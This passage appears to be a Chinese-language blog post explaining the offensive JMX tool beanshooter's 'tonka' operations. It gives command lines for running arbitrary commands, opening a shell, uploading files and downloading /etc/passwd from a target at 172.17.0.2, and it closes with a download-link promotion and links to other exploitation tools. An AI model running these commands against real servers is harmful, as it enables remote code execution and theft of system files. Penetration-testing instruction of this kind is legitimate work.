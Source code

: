 execarray操作与exec动作非常相似，但它不是期望一个字符串作为参数并在空格处分割该字符串以构建命令数组，而是允许指定多个参数，这些参数将直接作为ProcessBuilder类的命令数组使用：  
```
java -jar beanshooter.jar tonka execarray 172.17.0.2 9010 -- ash -c 'echo $HOME'
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfHJquo59z20gU6zGmUHVBIy9qxocCibQMtGM23GNG5iaUA8RwxZry3QAA/640?wx_fmt=png&from=appmsg "")  
##### Tonka Shell  
  
shell操作会启动一个命令行shell，您可以在其中指定将在JMX服务器上执行的命令，该shell并不是完全交互式的，只是对Java的Runtime.exec方法的一个封装，然而它实现了对环境变量和当前工作目录的基本支持：  
```
java -jar beanshooter.jar tonka shell 172.17.0.2 9010
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfD66JukQ2tJX89HnJNCYx6nLMpWIk8yk6mN1nfk7JlU87sibSf6SMricw/640?wx_fmt=png&from=appmsg "")  
  
上面的示例演示了如何使用!env关键字设置环境变量，除了这个关键字，还有其他几个可用的关键字：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfATK6WCFx1PVsdzhlhq4AfFOyuW9IhNVbqxRtAiatSSLRLToteZYqjLg/640?wx_fmt=png&from=appmsg "")  
##### Tonka Upload  
  
upload操作可用于将文件上传到JMX服务器  
```
java -jar beanshooter.jar tonka upload 172.17.0.2 9010 file.dat /tmp
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfD0pkY9VRWw6yfasyx5dYQr5WPvXF7TfVTIiaT2eV5V9v4OOb5uAVgew/640?wx_fmt=png&from=appmsg "")  
##### Tonka Download  
  
download操作可用于从JMX服务器下载文件：  
```
java -jar beanshooter.jar tonka download 172.17.0.2 9010 /etc/passwd
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfffIMWHFQY5bnXSICpOL5xGysSjneeLz1IiaMFN7qYCnz2h5j93icyL6A/640?wx_fmt=png&from=appmsg "")  
  
**下载地址**  
  
**点击下方名片进入公众号**  
  
**回复关键字【**  
**250122****】获取**  
**下载链接**  
  
**·推 荐 阅 读·**  
  
# 最新后渗透免杀工具  
# 【护网必备】高危漏洞综合利用工具  
#    【护网必备】Shiro反序列化漏洞综合利用工具增强版  
# 【护网必备】外网打点必备-WeblogicTool  
# 【护网必备】最新Struts2全版本漏洞检测工具  
# Nacos漏洞综合利用工具  
# 重点OA系统漏洞利用综合工具箱    